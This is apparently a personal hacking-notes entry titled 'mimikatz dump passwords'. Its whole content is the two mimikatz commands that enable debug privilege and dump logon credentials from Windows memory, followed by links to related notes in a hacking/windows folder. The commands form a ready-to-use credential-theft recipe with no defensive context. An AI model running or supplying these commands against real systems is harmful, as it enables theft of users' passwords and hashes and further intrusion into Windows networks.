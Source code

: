 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

# References
- [20221003151089](/zet/20221003151089/) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted

